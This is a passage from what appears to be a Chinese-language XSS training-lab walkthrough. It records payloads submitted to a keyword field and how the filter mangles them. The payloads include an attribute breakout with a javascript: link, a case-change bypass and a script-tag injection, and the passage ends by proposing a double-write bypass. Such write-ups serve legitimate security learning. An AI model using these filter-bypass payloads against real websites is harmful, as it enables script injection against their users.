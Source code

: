 
### 6.

使用payload5进行提交

```
"> <a href="javascript:alert(1)">1</a>
```

得到结果

```
<input name=keyword  value=""> <a hr_ef="javascript:alert(1)">1</a>">
```

说明 a标签也给过滤掉了



尝试一下大小写绕过

```
"> <a Href="javascript:alert(1)">1</a>
```



### 7.

使用payload6进行提交

```
"> <a Href="javascript:alert(1)">1</a>
```



结果为

```
<input name=keyword  value=""> <a ="java:alert(1)">1</a>">
```



滤过了href和script



改个方式

```
"><script>alert(1)</script>
```



结果为

```
<input name=keyword  value=""><>alert(1)</>">
```



过滤掉script

直接双写绕过
